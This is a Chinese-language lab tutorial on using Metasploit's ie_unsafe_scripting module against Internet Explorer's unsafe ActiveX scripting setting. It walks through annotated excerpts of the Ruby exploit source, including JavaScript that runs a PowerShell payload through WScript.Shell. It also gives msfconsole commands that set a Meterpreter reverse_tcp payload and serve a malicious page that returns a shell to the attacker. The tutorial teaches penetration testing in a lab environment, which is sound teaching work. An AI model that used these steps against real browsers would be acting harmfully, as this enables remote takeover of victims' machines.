



# 使用 Metasploit 攻击 IE 浏览器漏洞

## 1. 实验介绍

### 1.1 实验介绍

在过去的 Web 安全中，由于老版本的微软 IE 浏览器存在着许多缺陷，加上用户未能够及时地打上安全补丁，这些潜在的安全漏洞常常被黑客们利用。本实验将对 Metasploit 攻击 IE 浏览器漏洞进行讲解。

黑客们通过 IE 本身或者 IE 上所安装的软件漏洞进行攻击，比如业界著名的漏洞王 Flash 就经常被黑客们利用。当黑客攻击 IE 浏览器后，会利用 Web 端的漏洞获取目标靶机的管理权限。

在本实验中主要介绍使用 Metasploit 利用 IE 浏览器存在的缺陷攻击 IE 浏览器，进而获取控制权限。实验操作需要在两台机子上进行，其中一台安装有相应版本的 IE 浏览器。

- *注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 主要知识点

本实验的攻击操作在 Kali Linux 下进行，因此需要掌握一定的 Linux 系统操作基础，对于攻击端使用的 Metasploit 需要知道其 `set`,`show option`,`exploit` 命令的基本含义。其中的重点知识为 `use` 模块使用的源码含义。

对于所要攻击的 IE 浏览器，要求知道 `ActiveX` 是什么意思。以及理解攻击 IE 浏览器的 Ruby 模块部分关键代码，目标靶机进行了哪些操作后被感染。本实验的主要知识点如下列表：

- Linux 操作系统的基本操作
- Metasploit 的基本使用
- IE 浏览器的漏洞相关知识
- 攻击模块的 Ruby 源码含义

### 1.3 实验环境

本实验的实验环境由实验楼提供，其中宿主机为 Ubuntu 14.04，宿主机上安装有两台虚拟机，这两台虚拟机分别为攻击机 Kali Linux 和目标靶机 Metasploitable2。

由于本实验比较特殊，需要用到 IE 浏览器作为攻击目标，而实验楼的实验环境均为 Linux 操作系统，所以实验无法验证攻击的有效性。

虽然无法进行验证操作，但是会着重介绍 Kali Linux 上使用 Metasploit 攻击 IE 部分，并对其攻击脚本 Ruby 源码做一个详细的讲解。对于实验无法演示的部分，也会使用文字进行操作步骤介绍。

## 2. 环境准备

### 2.1 环境启动

实验楼的操作系统为 Ubuntu 14.04 ，我们本实验的攻击操作是在 Linux Kali 下进行的，首先在实验楼宿主机的终端中，双击 Xfce 终端，并输入如下命令启动 Kali Linux 虚拟机：
```
# 启动 Kali Linux 虚拟机
sudo virsh start Kali
```


在开启命令之后，需要等待一会让 Kali Linux 完全地启动。如果启动未完全就进行连接，则会报错。大概三十秒到一分钟左右后，在宿主机终端中输入如下命令，连接 Kali Linux 虚拟机,，其默认密码为 `toor`：
```
# 连接 Kali Linux 虚拟机
ssh root@Kali
```


## 3. 基本知识介绍

### 3.1 IE 浏览器介绍
 IE 英文名为 Internet Explorer，是微软公司推出的一款网页浏览器。原名称为 Microsoft Internet Exploret，在 IE7 之前的版本，中文名为 “ 网络探路者”，在其之后官方使用其俗称 “IE 浏览器”。

在进行本实验之前，先来了解下什么是 `ActiveX` 。`ActiveX`  是 Microsoft 对于一系列策略性面向对象技术和工具的称呼，其中主要技术是组件对象模型 `COM`。

`ActiveX` 广义上是指微软公司整个 `COM` 架构，但是现在通常用来称呼基于 `COM` 接口来实现对象链接和嵌入 `OLE` 的 `ActiveX` 控件。通过定义容器和组件之间的接口规范，如果编写了一个遵循规范的控件，那么可以很方便地在多种容器中使用不用修改控件的代码。

一些浏览器如 IE、网景浏览器等都不同程度上支持 `ActiveX` 控件的使用，它允许了网页通过脚本和控件进行交互进而产生丰富的效果，同时也带来一些安全性的问题。


### 3.2 关于 ActiveX 组件的运作原理

在使用 `ActiveX` 组件的过程中，每一个 `ActiveX` 组件都各自用一个唯一的 `GUID` 编码在登录信息的 `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\` 与 `HKEY_CLASSES_ROOT\CLSID\` 之处主注册其 `DLL` 文件路径。

多个 `ActiveX` 组件可以放在同一个 `dll` 文件内，但是所有开发使用的 `ActiveX` 组件都必须以各自 `GUID` 编号登记在登录信息内。由于 `Microsoft` 在 `Windows` 内置了一些 `ActiveX`，因此导致一些恶意的网站利用这些 `ActiveX` 进行自动安装病毒和后门。常见的有：

- `Scripting FileSystemObject`，这个 `ActiveX` 可以操作新增或修改文件内容。
- `WebmScripting.SWbemLocator` ，这个 `ActiveX` 可以操作新增或修改文件内容。
- `WScript.Shell`，这个 `ActiveX` 可以从浏览器之中自己运行外部的可执行文件。

> 部分原理内容摘自维基百科：https://zh.wikipedia.org/wiki/ActiveX

### 3.3 启动 Metasploit 工具

Metasploit 项目是一个旨在提供安全漏洞信息计算机安全项目，可以协助安全工程师进行渗透测试 penetration testing 及入侵检测系统签名开发。其中 Metasploit 项目最为知名的子项目为开源的 `Metasploit` 框架，一套针对远程主机进行开发和执行 `exploit` 代码的工具。

在上一节第 2 步环境准备的过程中，我们已经开启了 Kali Linux 虚拟机，接下来我们在 Kali Linux 虚拟机的终端中，输入如下命令，启动 `Metasploit` 框架：
```
root@Kali:~# msfconsole
```


### 3.4 攻击的 IE 浏览器漏洞介绍

一般情况下我们在渗透扫描了目标主机之后，根据对已有的各种信息进行综合分析，判断是否存在相应的漏洞可以攻击。这些漏洞的信息可以在一些信息安全漏洞里查找，国内的信息安全论坛，如漏洞盒子，乌云等。

接着可以通过在 `Metasploit` 中，通过命令 `search` 搜索是否有相应的漏洞攻击模块。这些工具的模块已经被集成在了 `Metasploit` 中，你只需要学会设置一些简单的参数即可使用。

本实验攻击的 IE 漏洞为 “IE 不安全脚本错误配置漏洞” 。攻击的流程为首先启动 `Msfcosole`，接着使用脚本模块 `ie_unsafe_scripting`，并设置相应的本地主机 IP 地址参数，运行攻击命令 `exploit` 即可。

此时 `Msfconsole` 会生成一个网页地址，只要存在缺陷的目标靶机的 IE 浏览器访问这个网页地址即可被感染，从而让攻击者获得攻击机和目标靶机之间的 shell 连接通道。其中需要注意的是，目标靶机的 IE 浏览器中的 ` Initialize and script ActiveX controls not marked as safe` 的该选项需要被选中攻击才能生效。

## 4、漏洞攻击过程

### 4.1 Ruby 模块关键源码解释

在攻击 IE 浏览器的 “不安全脚本错误配置漏洞“ 中，攻击的模块已经被集成在了 `Msfconsole` 里面，其名称为 `ie_unsafe_scripting`。通过 `search` 命令可以查到漏洞模块时间信息**（注意，由于 Metasploit 中模块较多，所以使用 search 命令搜索较慢，大概需要两到三分钟左右，请耐心等待）**：
```
# 查找相应的模块信息
msf > search ie_unsafe_scripting
```


对于 `ie_unsafe_scripting`  的源码部分，可以通过 `cat` 命令进行查看。`Metasploit` 的攻击模块由 Ruby 语言进行编写。攻击 IE 漏洞的模块关键部分源码如下所示：
```
# 引入一些必要的模块 core、exe、powershell 等
require 'msf/core'
require 'msf/util/exe'
require 'msf/core/exploit/powershell'

class MetasploitModule < Msf::Exploit::Remote

  Rank = ManualRanking

  include Msf::Exploit::Remote::BrowserExploitServer
  include Msf::Exploit::EXE
  include Msf::Exploit::Powershell

  # 实例化 ActiveXObject 的一些信息
  # 对于 ActiveX 是什么，可以查看第 3 小结基础知识介绍，其中有介绍 ActiveX
  VULN_CHECK_JS = %Q|
```
try {
new ActiveXObject("WScript.Shell");
new ActiveXObject("Scripting.FileSystemObject");
is_vuln = true;
} catch(e) {}
```
  |
...
...
...

# 使用函数 initalize 初始化相关信息
def initialize(info = {})
```
super(update_info(info,

# 模块的名字信息
'Name'                  => 'Microsoft Internet Explorer Unsafe Scripting Misconfiguration',

# 模块的描述信息	，描述信息过长已经省略
'Description'           => %q{
...
...
...
},

# 模块的相关证书
'License'               => MSF_LICENSE,
```
 
```
# 模块的作者信息
'Author'                =>
[
'natron',
'Ben Campbell' # PSH and remove ADODB.Stream
],
'References'          =>
[
[ 'URL', 'http://support.microsoft.com/kb/182569' ],
[ 'URL', 'http://blog.invisibledenizen.org/2009/01/ieunsafescripting-metasploit-module.html' ],
[ 'URL', 'http://support.microsoft.com/kb/870669']
],
'DisclosureDate'      => 'Sep 20 2010',
'Platform'            => 'win',

# 浏览器的信息描述
'BrowserRequirements' => {
source:          'script',
os_name:         OperatingSystems::Match::WINDOWS,
ua_name:         HttpClients::IE,
vuln_test:       VULN_CHECK_JS,
vuln_test_error: 'WScript.Shell or Scripting.FileSystemObject not allowed by browser.'
},
'Arch'                => ARCH_X86,
```

```
# 攻击目标为 Windows x86/x64 操作系统 
'Targets'             =>
[
[ 'Windows x86/x64', {} ]
],

# 默认选项设置
'DefaultOptions'      =>
{
'HTTP::compression' => 'gzip'
},
'DefaultTarget'  => 0
))
```
 
```
# 注册选项，存储相关的注册函数
register_options(
[
OptBool.new('ALLOWPROMPT', [true, 'Allow exploit to ignore the protected mode prompt', false]),
OptEnum.new('TECHNIQUE', [true, 'Delivery technique (VBS Exe Drop or PSH CMD)', 'VBS', ['VBS','Powershell']])
], self.class
)
```
  end
```
紧接着上面的 Ruby 源码，这部分为 `ie_unsafe_scripting ` 的中间部分源码：
```
  # 监听攻击请求的 on_request_exploit 函数
  # 在生成特定的链接之后，需要进行监听等待目标靶机的 IE 浏览器访问生成页面
  def on_request_exploit(cli, request, browser)
```
if has_protected_mode_prompt?(browser)
print_warning("This target possibly has Protected Mode, exploit aborted.")
send_not_found(cli)
return
end
```

```
# 构建目标靶机访问的攻击页面
var_shellobj = rand_text_alpha(rand(5)+5)
```

```
p = regenerate_payload(cli)
if datastore['TECHNIQUE'] == 'VBS'
js_content = vbs_technique(var_shellobj, p)
else
js_content = psh_technique(var_shellobj, p)
end
```

```
print_status("Request received for #{request.uri}")
print_status("Sending exploit html/javascript");
```

```
# 发送响应到客户端
send_response(cli, js_content, { 'Content-Type' => 'text/html' })
```

```
# 处理特定的有效载荷 payload 这个东西
handler(cli)
```
  end
...
...
...
  # 构建的 javaScript 其中一部分
  def psh_technique(var_shellobj, p)
```
cmd = Rex::Text.to_hex(cmd_psh_payload(payload.encoded, payload_instance.arch.first))
js_content = %Q|
```html
<html><head></head><body><script>

# 实例化 ActiveXObject 对象，启用并返回 Automation 对象的引用
var #{var_shellobj} = new ActiveXObject("WScript.Shell");

# 运行 run 函数进行 cmd 命令操作
# {var_shellobj}.run(unescape("#{cmd}"), 1, true);
</script></html>
|
```
js_content
```
  end
```
### 4.2 使用 Metasploit 进行攻击

在解释了攻击模块 `ie_unsafe_scripting` 的关键部分源码之后，我们使用 `ie_unsafe_scripting` 模块进行攻击。首先在 `Msfconsole` 中使用 `use` 命令使用漏洞攻击模块：
```
# 使用已经集成的攻击模块
msf > use exploit/windows/browser/ie_unsafe_scripting
```


接着使用 `set` 命令设置攻击载荷，并使用 `show options` 命令参数查看需要填写的选项，最后使用 `set` 命令设置攻击机的 IP 地址：
```
# 设置攻击的载荷
msf > set payload windows/meterpreter/reverse_tcp

# 查看参数信息
msf > show options

# 设置主机 IP 地址
msf > set LHOST 192.168.122.101
```




接着输入最后的攻击命令 `exploit`，此时攻击机进入监听状态，只要有缺陷的目标靶机访问了攻击机生成的网页页面，其中由于 `ActiveX` 的缺陷，使得攻击者获取目标靶机管理权限，建立 shell 通道：



由图可以知道，其生成的网页地址如下所示：
```
# 生成的网页地址
http://192.168.122.101:8080/slJnjsqppUdD34
```


启动后服务器端进入监听状态，由于实验楼环境上没有安装 Windows 环境，所以最后一步使用 IE 浏览器访问该地址无法进行演示。

## 5. 思考总结

### 5.1 思考总结

本实验主要讲解了如何使用 `Metasploit`  攻击 IE 浏览器的漏洞，其中的基础知识部分中介绍了 `ActiveX` 是什么东西，以及其在 IE 浏览器中扮演的角色地位。

接着对 `Metasploit` 攻击模块 `ie_unsafe_scripting` 源码关键部分进行了讲解。并在 `Msfconsole` 中进行了基本使用的演示。目标靶机的 IE 部分虽然没有进行演示，但是只要在有缺陷的 IE 浏览器上访问生成的特定网页即可被感染。

我们再来回顾下本课程的主要知识点：

- Linux 操作系统的基本操作
- Metasploit 的基本使用
- IE 浏览器的漏洞相关知识
- 攻击模块的 Ruby 源码含义

## 6. 课后作业

进行完本实验之后，请思考并完成如下作业：

- 阅读 Ruby 攻击部分关键源码
- 熟悉使用 Metasploit 进行攻击的步骤

对于文档中不懂的问题，在自己思考之后，如果还是无法解决，可以在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。